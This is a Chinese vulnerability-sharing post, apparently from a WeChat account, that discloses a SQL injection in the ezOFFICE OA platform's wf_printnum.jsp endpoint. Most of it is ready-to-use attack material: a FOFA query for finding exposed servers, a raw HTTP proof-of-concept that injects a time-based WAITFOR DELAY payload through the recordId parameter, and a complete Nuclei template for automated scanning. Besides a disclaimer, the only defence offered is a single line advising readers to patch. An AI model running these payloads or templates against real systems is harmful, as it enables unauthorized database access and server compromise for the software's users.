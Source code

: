 #  万户 ezOFFICE wf_printnum.jsp SQL注入漏洞

原创 WLF  [ 伟大航路D ](javascript:void\(0\);)

**伟大航路D** ![]()

微信号 gh_c1fdc31f79ef

功能介绍 日常漏洞分享

____

___发表于_

免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。

![]()

**![]()**Ⅰ、漏洞描述

万户OA
ezoffice是万户网络协同办公产品多年来一直将主要精力致力于中高端市场的一款OA协同办公软件产品，统一的基础管理平台，实现用户数据统一管理、权限统一分配、身份统一认证。统一规划门户网站群和协同办公平台，将外网信息维护、客户服务、互动交流和日常工作紧密结合起来，有效提高工作效率。

万户 ezOFFICE wf_printnum.jsp 接口存在SQL注入漏洞，恶意攻击者可利用此漏洞获取数据库信息，获取服务器控制权限

![]()

 **![]()**Ⅱ、fofa语句

  * 

    
    
     app="ezOFFICE协同管理平台"

  

 **![]()**Ⅲ、漏洞复现  

POC

  *   *   *   *   *   *   * 

    
    
    GET /defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: close

 **1、构建poc**

![]()

  

 **![]()**Ⅳ、Nuclei-POC  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     id: WH-ezOFFICE-wf-printnum-jsp-SQL  
    info:  name:  万户 ezOFFICE wf_printnum.jsp存在SQL注入漏洞 未授权的攻击者可利用此漏洞获取数据库权限 深入利用可获取服务器权限  author: WLF  severity: high  metadata:     fofa-query: app="ezOFFICE协同管理平台"variables:  filename: "{{to_lower(rand_base(10))}}"  boundary: "{{to_lower(rand_base(20))}}"http:  - raw:      - |        GET /defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1;WAITFOR%20DELAY%20%270:0:3%27-- HTTP/1.1        Host:{{Hostname}}        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36        Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8        Accept-Encoding: gzip, deflate        Accept-Language: zh-CN,zh;q=0.9        Connection: close  
      
            GET /defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1        Host:{{Hostname}}        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36        Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8        Accept-Encoding: gzip, deflate        Accept-Language: zh-CN,zh;q=0.9        Connection: close  
      
            GET /defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1;WAITFOR%20DELAY%20%270:0:7%27-- HTTP/1.1        Host:{{Hostname}}        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36        Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8        Accept-Encoding: gzip, deflate        Accept-Language: zh-CN,zh;q=0.9        Connection: close  
      
      
        matchers-condition: and    matchers:      - type: dsl        dsl:          - 'duration_1>=2 && duration_1<=5'          - 'duration_2>=4 && duration_2<=7'          - 'duration_3>=6 && duration_3<=9'      - type: dsl        dsl:           - 'contains_all(body, "0")'

![]()

 **![]()**Ⅴ、修复建议  

 **  
**

厂家已发布漏洞补丁，请及时前往官网更新  

 **  
**

 **  
**

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 万户 ezOFFICE wf_printnum.jsp SQL注入漏洞

原创 WLF  [ 伟大航路D ](javascript:void\(0\);)

轻触阅读原文

![]()

伟大航路D

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

